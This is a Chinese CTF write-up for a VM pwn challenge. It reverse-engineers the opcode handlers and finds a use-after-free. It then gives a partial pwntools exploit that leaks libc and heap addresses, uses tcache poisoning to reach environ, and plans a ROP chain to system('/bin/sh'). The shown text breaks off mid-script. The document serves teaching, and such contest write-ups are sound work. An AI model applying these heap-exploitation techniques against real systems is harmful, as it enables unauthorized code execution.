# 2025全国大学生软件系统安全赛——VM题解-先知社区

> **来源**: https://xz.aliyun.com/news/16492  
> **文章ID**: 16492

---

## vm

一道vm pwn题，保护全开，代码量有点大，难点主要在于逆向分析上，但分析明白了就很容易做了

### 逆向分析

首先先运行一下查看基本逻辑：  
  
输出“Please input your opcodes:”，然后随便输入就退出了（这里因为是vm题，我知道代码量肯定很大，想着能不能提前测出点东西，所以在看代码前就把一些“aaaa”，“11111”，“\x01”之类字符都试了一遍，但很遗憾，全是“Segment error”，没办法，只能看`ida`加`gdb`调试慢慢分析了）

#### main函数

首先是main函数：  
  
**sub\_30C0函数**就是初始化函数。  
`qword_6120`指向`0x64617461000`；`qword_6128`指向`0x7063000`；`qword_6160`指向`0x73746163000`。  
而**sub\_3107函数**可以看出是读取平台给的vmdata和vmcode附件，然后将第四个字节往后（前四个字节是长度）的内容分别写入`0x64617461000`和`0x7063000`中：  
  
  
**`vmdata文件:`**  
  
**`vmcode文件:`**这个其实有点类似与出题人要告诉我们这些数据对应了哪些操作（在比赛时我也只分析了里面的部分数据就能大概得出对应操作解题了）  


#### sub\_2F6F函数

**sub\_2F6F函数**里面含有很多”功能“函数，要记住传入的参数为**`qword_6120`**，这里我先把几个变量名简单的更换了一下，context为申请的堆块  


##### sub\_132D函数

这里我们先从里面的第一个函数分析起，参数一为**`vmcode_6120`**，参数二为**`context`**。  
进入后可以发现后面的部分都是几个分支，先分析前面是怎么跳进去的：  
  
大概就是先取出vmcode的一个字节后，vmcode\_addr+1往后移一位，然后context第一个字节等于刚才取出的那个字节，第二个字节为**第一个字节 & 3**，然后赋值给choice，以便后续的判断，这里我们以最开始的vmcode为例，用gdb调试一下，vmcode第一个字节为 **“\x0f”**，则context的第一个字节也为 **“\x0f”**，第二个字节则为 **0xf & 3 = 0x3**，同时vmcode\_addr应该加1变成**0x0007063001**：  
  
后面有四个判断分支，是`vmcode & 3`后的结果选择，  
当结果为**3**时：  
大概流程是vmcode（看汇编是一个字节）赋值给**context+4的位置**，然后vmcode往后移一位，再赋值（看汇编是四个字节）给**context+8的位置**，最后vmcode\_addr往后移动8位，**结果为3**的话vmcode\_addr就是往后移动**10个字节**（1+1+8）

当结果为**2**时：  
大概流程是vmcode赋值给**context+4的位置**，然后vmcode往后移一位，再赋值给**context+8的位置**，vmcode再往后移动8位，则**结果为2**的话vmcode\_addr就是往后移动**3个字节**（1+1+1）

当结果为**1**时：  
流程更加简单，就只是将 vmcode赋值给**context+4的位置**，然后vmcode往后移一位，则**结果为1**的话vmcode\_addr就是往后移动**2个字节**（1+1）

当结果为**0**时：  
大概流程为注释所写，但这里需要注意的是 ==0 | value = value==，因此我们只要让第三次循环时赋值就可以了，前两次都为0即可，则**结果为0**的话vmcode\_addr就是往后移动**4个字节**（1+3）

tips：跳出来之后我们能够发现下面同样是选择分支，而且关键的是控制跳进哪条分支的跟**sub\_132D函数**里的一样，都是最开始的vmcode & 3  


##### sub\_2A49函数

choice为3时跳进  
  
可以看到又是一堆选择分支，选择的依据是**vmcode >> 2**，这里虽然有很多个分支，但我们只需要弄明白这个表达式的含义即可：  
  
可以看到所有分支都含有：`*(vmcode_6120 + 8 * (*(context + 4) + 2LL))`  
这里可以选择建结构体分析，或者直接静态分析也不难，这个含义就是**qword\_6120**这个数组 **下标为2或者更大** 的地址，`*(context + 4)`相当于一个偏移 offset 。然后我们再大概看一下，我们只需要先记住**case 3**即可：  
  
原因如下：在所有操作中，直接赋值操作是最容易控制的（除非有些被限制的数写不进去我们才考虑其他操作），同时**\*(context + 4)** 和 **\*(context + 8)**都是我们能够直接控制的，这就使得赋值简单了许多，其他case大家有兴趣也可以自行分析一下，但由于比赛只有5个小时，时间不允许去进行细究，所以我在比赛时也只分析了几个简单的赋值操作。

##### sub\_23A7函数

choice为2时跳进：  
  
这个函数我完全没进行分析，一个原因是出题人给的vmcode最开始就是choice为3的分支（我一开始就跟着分析那个分支），另一个等到后面看了choice为0的分支我们大概就能明白了。  
这个我们也看个直接赋值的操作：  
  
相较于choice3，区别在于是将**qword\_6120**数组中的某个下标的值赋值给另外一个下标的值（这也稍微有点麻烦了，所以感觉没啥必要）

##### sub\_2142函数

choice为1跳进  
  
看样子也是对**qword\_6120**数组赋值，所以choice3的赋值已足以，除非需要某些极大的值，不然没必要浪费精力在这个choicce上面。

##### sub\_19AD函数

极其重要的函数，漏洞点也在这里，choice为0跳进  
里面也有很多分支，但有几个分支包含了两个函数  
简单分析其中一个分支，其他也都差不多：  
  
里面主要包含两个函数，**sub\_12E8函数**：qword\_6120[3]的值不能大于0x30000  
然后下面要注意传入**sub\_1837函数**的参数：分别为context+4的值，qword\_6120[2]，qword\_6120[3]+qword\_6120[0]，qword\_6120[4]，后面几个都用不上了，其他分支也是类似，**注意第三个参数，这里就可以传入0x0000064617461000往后的地址了**，而其他分支也是类似，这里就不赘述了。

###### **sub\_1837函数**

变量名我都进行了修改，**其中choice为context+4的值，vmcode\_6120\_0x10意思是vmcode\_6120+0x10，vmcode\_6120\_0x18意思是vmcode\_6120+0x18，vmcode\_6120\_0x20意思是vmcode\_6120+0x20**（但都不是肯定的，因为外面有 + 操作，只是我最开始没看清，就这样写进去了）。

可以看到里面有堆操作，能申请16个无限制大小的堆块：  
  
同时free后没清空指针，有个**use after free**：  
  
**read\_from\_memory函数**，从0x0000064617461000的某个偏移地址读取数据到堆中：  
  
**write\_to\_memory函数**，将堆中的数据写进到0x0000064617461000的某个偏移地址里：  
  
还有read和write操作，虽然有限定范围，但也足够了，所以看得出这就是这个程序主要可以利用的分支了，其他的choice可以猜测出就是用来赋值，然后为这个choice服务的

### 利用思路

梳理一下我们目前能控制的东西：context可控，**qword\_6120**数组下标为2及以后也可控  
所以我们的利用思路为：  
1、通过 **choice3** 控制**qword\_6120**数组（vmcode\_6120+0x10）设置0x500的size，通过 **choice0** 申请**堆块0**，然后**choice3** 修改size，继续申请**堆块1**，此时**choice0**释放堆块0，再申请一个比堆块0大的堆块2，堆块0将进入**largebin**，利用**write\_to\_memory函数**将堆块0里的**libc和heap地址**读入0x0000064617461000中，然后通过choice0的**write操作**泄露**libc地址和heap地址**。

2、重新写vmcode（可能有人会想重新读入是不是很麻烦，其实不然，题目给的vmcode文件的数据其实就是让我们写vmcode进去并执行的，不然的话哪来的打印“Please input your opcodes:”和接收输入呢【doge】），修改size为0x90，然后申请两个0x90的堆块并释放，此时进入tcachebin链中，修改fd指向**environ**，再重新申请回来，我们可以发现environ已经在堆块中了，此时再利用利用**write\_to\_memory函数**将**environ**的堆块里的**栈地址**读入0x0000064617461000中，再通过**write操作**进行泄露。

3、再次重新写vmcode（因为我们获得了栈地址，需要将其申请到堆块中），修改size为0x80，申请两个0x80的堆块并释放，再修改fd指向某一个返回地址（这里我选的是**sub\_132D函数里失败返回-1的返回地址**，因为当时测了几个比如add heap等地址，发现要么写入后因为其他汇编指令会被覆盖掉，要么会使add的过程中将size覆盖为0，无法进行后续的修改），写入rop链后触发sub\_132D函数即可。

### 完整exp

```
from pwn import *
context(log_level='debug',arch='amd64')
io=process('./vm')
#io=remote('ip',port)
libc=ELF('./libc.so.6')


def send_vmcode(code):
    io.sendlineafter('opcodes:\n',code)

#gdb.attach(io)
#pause()
# 设置size=0x500
code=p32(0x0500000f).ljust(10,b'\x00') # choice3占用十个字节，修改qword_6120[2+0]为0x500
# code+=p32(0x0400010f).ljust(10,b'\x00') # 修改qword_6120[2+1]为0x400，通过后面的比较判断
# add一个堆块
code+=p32(0x030000cc) # 0xcc&3=0;0xd4>>2=51; \x03是跳进choice0里面的case3   chunk 0


# 设置size=0x90
code+=p32(0x0090000f).ljust(10,b'\x00') # 修改qword_6120[2+0]为0x90
#code+=p32(0x0400010f).ljust(10,b'\x00')
# add一个heap，防止释放chunk0与top chunk合并
code+=p32(0x030000cc) # chunk 1

# 设置index
code+=p32(0x0000000f).ljust(10,b'\x00') # 修改qword_6120[2+0]为0,即chunk的index
#code+=p32(0x0020010f).ljust(10,b'\x00')
# free chunk 0
code+=p32(0x040000cc) # \x04是跳进choice0里面的case4

# 设置size=0x600
code+=p32(0x0600000f).ljust(10,b'\x00') # 修改qword_6120[2+0]为0x500
# add_heap
code+=p32(0x030000cc) # chunk2,0x500的chunk进入largebin

code+=p32(0x0000000f).ljust(10,b'\x00') # index 修改qword_6120[2+0]为0
code+=p32(0x0020010f).ljust(10,b'\x00') # offset 修改qword_6120[2+1]为0x20
code+=p32(0x0020020f).ljust(10,b'\x00') # length 修改qword_6120[2+2]为20
code+=p32(0x060000cc) # 跳进choice0里面的case6  write_to_memory

# 泄漏地址
code+=p32(0x0001000f).ljust(10,b'\x00') # index 修改qword_6120[2+0]为0
code+=p32(0x0020010f).ljust(10,b'\x00') # offset 修改qword_6120[2+1]为0x20
code+=p32(0x0020020f).ljust(10,b'\x00') # length 修改qword_6120[2+2]为0x20
code+=p32(0x010000d4) # 跳进choice0里面的case1

# 设置size=0x90
code+=p32(0x0090000f).ljust(10,b'\x00')
# add_heap
code+=p32(0x030000cc) # chunk3

# add 0x90
code+=p32(0x0090000f).ljust(10,b'\x00')
# add_heap
code+=p32(0x030000cc) # chunk4

# free_chunk_1
code+=p32(0x0001000f).ljust(10,b'\x00') # index 修改qword_6120[2+0]为1
code+=p32(0x040000cc)

# free_chunk_4
code+=p32(0x0004000f).ljust(10,b'\x00') # index
code+=p32(0x040000cc)

# 重新读入
code+=p64(0x000000000001000f)
code+=p64(0x00000000010f0000)
code+=p64(0x001b020f00000000)
code+=p64(0x00d4000000000000)
code+=p64(0x0081000000c00100)
code+=p64(0x00000200012b0181)
code+=p64(0x0f00001200000000)
code+=p64(0x0000000000030002)
code+=p64(0x0001a5000000cc00)

send_vmcode(code)

libc_base=u64(io.recv(6).ljust(8,b'\x00'))-0x21b110
success('libc_base:'+hex(libc_base))
io.recv(10)
heap_base=u64(io.recv(6).ljust(8,b'\x00'))-0x2b0
success('heap_base:'+hex(heap_base))
environ=libc_base+libc.symbols['environ']
rdi=libc_base+0x000000000002a3e5
ret=libc_base+0x0000000000029139
bin_sh=libc_base+next(libc.search(b'/bin/sh\x00'))
system=libc_base+libc.symbols['system']

#gdb.attach(io)
#pause()

# read environ进去
code=p32(0x0000000f).ljust(10,b'\x00') # fd
code+=p32(0x0020010f).ljust(10,b'\x00') # offset
code+=p32(0x0020020f).ljust(10,b'\x00') # length
code+=p32(0x000000d4) # choice0里的case0

# write_to_heap_1 篡改chunk1的fd,使其指向environ
code+=p32(0x0004000f).ljust(10,b'\x00') # index
code+=p32(0x0020010f).ljust(10,b'\x00') # offset
code+=p32(0x0008020f).ljust(10,b'\x00') # length
code+=p32(0x050000cc) # heap1_read_from_memory

# add 0x90
